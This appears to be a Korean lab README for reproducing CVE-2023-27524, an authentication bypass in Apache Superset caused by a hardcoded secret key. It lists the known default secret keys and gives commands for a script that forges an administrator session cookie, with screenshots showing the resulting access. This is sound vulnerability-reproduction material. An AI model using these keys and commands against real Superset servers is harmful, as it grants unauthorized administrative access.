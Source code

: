 # Apache 슈퍼셋 하드코딩된 JWT 비밀 키로 인한 인증 우회(CVE-2023-27524)



# 환경구성 및 실행
Apache Superset 2.0.1 서버를 시작
docker compose up -d
서버가 시작되면 에서 Superset에 접속할 수 있습니다 http://your-ip:8088. 기본 로그인 정보는 admin/vulhub입니다.

Superset이 다음의 하드코딩된 기본값 중 하나를 사용하기 때문에 취약점이 존재합니다.

- \x02\x01thisismyscretkey\x01\x02\\e\\y\\y\\h(버전 < 1.4.1)
- CHANGE_ME_TO_A_COMPLEX_RANDOM_SECRET(버전 >= 1.4.1)
- thisISaSECRET_1234(배포 템플릿)
- YOUR_OWN_RANDOM_GENERATED_SECRET_KEY(선적 서류 비치)
- TEST_NON_DEV_SECRET(도커 컴포즈)
CVE-2023-27524.py를 사용하여 관리자 세션(user_id가 1인) 쿠키를 위조합니다.



#Install dependencies

pip install -r requirements.txt

#Forge an administrative session (whose user_id is 1) cookie

python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
python CVE-2023-27524.py --url http://your-ip:8088 --id 1 --validate
이 스크립트는 알려진 기본 비밀 키를 사용하여 세션 쿠키를 크래킹하려고 시도합니다. 성공하면 user_id=1(일반적으로 관리자 사용자)로 새 세션 쿠키를 위조하고 로그인을 검증합니다.
![image](https://github.com/user-attachments/assets/9b38f0e5-8d8e-4a18-a56d-cf15b31ca64a)

쿠키 값에 이 JWT 토큰을 사용하면 Superset의 백엔드 엔드포인트에 액세스할 수 있습니다.

(1) 원래는 접근 불가능

![image](https://github.com/user-attachments/assets/5be4a350-0d72-4736-9690-18b45418cd12)

(2) 토큰 사용으로 접근 가능

![image](https://github.com/user-attachments/assets/1edaa0a4-091a-46f9-ab3c-5f71700de7bf)
